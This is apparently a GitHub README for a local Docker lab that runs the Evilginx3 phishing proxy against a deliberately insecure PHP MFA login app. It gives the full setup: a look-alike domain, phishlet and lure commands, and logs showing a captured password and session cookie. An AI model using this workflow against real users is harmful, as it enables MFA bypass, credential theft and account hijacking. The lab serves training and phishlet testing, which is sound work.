 # Evilginx LAB on Docker
![back](evil-dock.jpg)

## Disclaimer
As you can imagine, this lab was created solely and exclusively for the purposes outlined below, and absolutely not for any malicious activity. Of course, I disclaim any responsibility for the improper use of the material contained in this repository.
The containers must absolutely not be exposed to a public network.

Please note that the comments inside files are in italian.

## Why?
I created a local lab to test Evilginx without the need to purchase a domain or presumably a VPS. It is useful for the following use cases:
1. Study and practice
2. Phishlet development and testing
3. Demonstrations and training activities

## Lab architecture
The lab consists of two Linux Docker containers. One hosts a simple PHP application that implements an MFA login process. The application is completely insecure, so it is strongly recommended not to expose it to the Internet and not to use the code in real-world applications. The second container hosts the Evilginx3 server.

## Objective
Our goal is to intercept the authentication tokens (cookies) needed to hijack the user's session. It's very straightforward.

## build & run the containers
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	
Verify if they run:

	docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## modify hosts in file in the host machine to mimic DNS
Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local



## Start evilnginx
```bash 
sudo docker exec -it /targetsile.local /bin/bash 
root@bd1cc49349a5:/evilginx2# ./evilginx2 -developer

                                         
___________      __ __           __               
\_   _____/__  _|__|  |    ____ |__| ____ ___  ___
|    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
|        \\   /|  |  |__/ /_/  >  |   |  \>    < 
/_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
     \/              /_____/         \/      \/

        - --  Community Edition  -- -

by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[16:02:29] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[16:02:29] [inf] loading phishlets from: /evilginx2/phishlets
[16:02:29] [inf] loading configuration from: /root/.evilginx
[16:02:29] [inf] blacklist mode set to: unauth
[16:02:29] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[16:02:29] [inf] https port set to: 443
[16:02:29] [inf] dns port set to: 53
[16:02:29] [inf] autocert is now enabled
[16:02:29] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[16:02:30] [war] server domain not set! type: config domain <domain>
[16:02:30] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  
| example           | disabled  | visible     |           |             |                                                                                                                                                                  
| targetsite-local  | disabled  | visible     |           |             |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  

:  


```
                                        
## Config Evilngnix container

	: config domain targetsile.local
	: config ipv4 172.18.0.10
	: phishlets hostname targetsite-local targetsile.local
	: phishlets get-hosts targetsite-local 
		172.18.0.10 login.targetsile.local
		172.18.0.10 targetsile.local
		
	: phishlets enable  targetsite-local 
	: lures create targetsite-local 
	: lures
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| 0   | targetsite-local  |           | /AhsTYOfa  |             |               |         | ----  |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
 
	: lures get-url 0
		https://login.targetsile.local/AhsTYOfa

## Capturing the session token
```bash 
: 2024/12/04 21:32:08 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[21:32:33] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (172.18.0.1)
[21:32:33] [inf] [0] [targetsite-local] landing URL: https://login.targetsile.local/AhsTYOfa
[21:33:14] [+++] [0] Username: [admin]
[21:33:14] [+++] [0] Password: [test01]
[21:33:53] [+++] [0] Username: [admin]
[21:33:53] [+++] [0] Password: [Pwd Sicur@ 123]
[21:33:54] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip   |       time        |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 172.18.0.1  | 2024-12-04 21:33  |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.targetsile.local/AhsTYOfa
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 172.18.0.1
 create time  : 2024-12-04 21:32
 update time  : 2024-12-04 21:33

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764884081,"value":"jkncga8d8e6fk3igla22ugsfse--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]




```
## useful Docker commands

### stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
### access a container

	sudo docker exec -it <container name> /bin/bash

### check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## see logs

	sudo docker logs <container name>
	
### show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

